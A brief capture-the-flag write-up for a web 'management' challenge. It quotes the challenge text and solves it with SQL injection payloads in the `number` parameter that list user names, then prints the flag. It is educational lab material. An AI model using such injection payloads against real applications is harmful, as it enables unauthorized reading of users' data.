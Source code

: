 # Writeup
```
I've created a new website so you can do all your important management. It includes users, creating things, reading things, and... well, not much else. Maybe there's a flag?

Second instance running at 52.90.229.46:8558

    tpctf{san1t1z3_y0ur_1npu7s} is not the correct flag. Look harder ;)

    Note: the flag format is flag{}, not the usual tpctf{}

    Author: Kevin Higgs

```
# Solve
This is a normal query: `SELECT `1` FROM users WHERE name = 'custom-kevin';`

There are three parameters: `number`, `value` and `action`

We will inject into `number` parameter and try to display name of users

payload: `name` FROM users LIMIT 1 OFFSET 0-- -`
and we get `custom-Hi`, let try another
payload: `name` FROM users LIMIT 1 OFFSET 1-- -` and we got the flag

# Flag
flag{aLW4ys_ESC4PE_3v3rYTH1NG!!!!!}
